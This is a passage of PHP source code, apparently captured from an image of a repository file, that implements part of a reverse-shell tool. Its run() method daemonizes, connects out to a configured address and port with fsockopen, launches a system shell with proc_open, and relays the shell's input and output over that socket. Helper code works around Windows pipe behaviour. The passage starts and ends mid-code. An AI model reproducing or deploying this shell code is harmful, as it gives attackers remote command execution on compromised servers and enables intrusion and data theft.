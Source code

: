 ```php
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $fstat = fstat($input);
        $size = $fstat['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: " . $status['pid'] . "\n");
                    do {
						$status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
                            echo "SOC_ERROR: Shell connection has been terminated\n"; break;
                        } else if (feof($pipes[1]) || !$status['running']) {                 // check for end-of-file on STDOUT or if process is still running
                            echo "PROC_ERROR: Shell process has been terminated\n";   break; // feof() does not work with blocking streams
                        }                                                                    // use proc_get_status() instead
                        $streams = array(
```